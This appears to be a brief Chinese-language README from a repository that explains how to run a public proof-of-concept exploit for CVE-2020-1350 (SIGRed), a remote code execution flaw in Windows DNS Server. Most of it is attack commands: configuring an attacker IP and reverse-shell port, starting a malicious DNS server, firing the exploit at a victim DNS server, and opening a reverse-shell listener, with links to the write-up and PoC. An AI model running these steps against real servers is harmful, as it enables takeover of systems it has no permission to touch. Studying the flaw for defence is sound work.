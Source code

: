 # DNS Server远程代码执行漏洞(CVE-2020-1350)

关于此漏洞的详细信息：https://www.graplsecurity.com/post/anatomy-of-an-exploit-rce-with-cve-2020-1350-sigred

漏洞利用：

```bash
sudo python3 configure.py -ip IP_ATTACKER -p PORT_REVERSE_SHELL -hp PORT_APACHE_SERVER (default 80)
sudo python3 evildns.py
```

需要sudo监听UDP和TCP端口53

然后运行：

```bash
python3 exploit.py -ip WINDNS_VICTIM_IP -d EVIL_DOMAIN
```

设置反弹shell的监听：

```bash
python3 reverse_shell/server.py -p PORT_REVERSE_SHELL
```

poc：https://github.com/chompie1337/SIGRed_RCE_PoC

ref：

* https://www.graplsecurity.com/po ... ve-2020-1350-sigred
* https://github.com/chompie1337/SIGRed_RCE_PoC
* https://nvd.nist.gov/vuln/detail/CVE-2020-1350